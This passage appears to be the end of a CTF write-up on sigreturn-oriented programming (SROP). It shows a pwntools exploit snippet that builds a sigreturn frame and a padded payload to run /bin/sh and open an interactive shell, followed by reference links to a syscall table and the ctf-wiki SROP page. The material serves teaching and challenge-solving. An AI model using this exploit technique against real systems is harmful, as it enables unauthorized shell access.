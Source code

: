 ```python
frame.rdi = stack
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret
pay='/bin/sh\x00'+'a'*(0x10-len('/bin/sh\x00'))+p64(rax)+p64(syscall_ret)+str(frame)
p.sendline(pay)
p.interactive()
```



## 参考文献

[系统调用号](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)

https://ctf-wiki.org/pwn/linux/stackoverflow/advanced-rop/srop/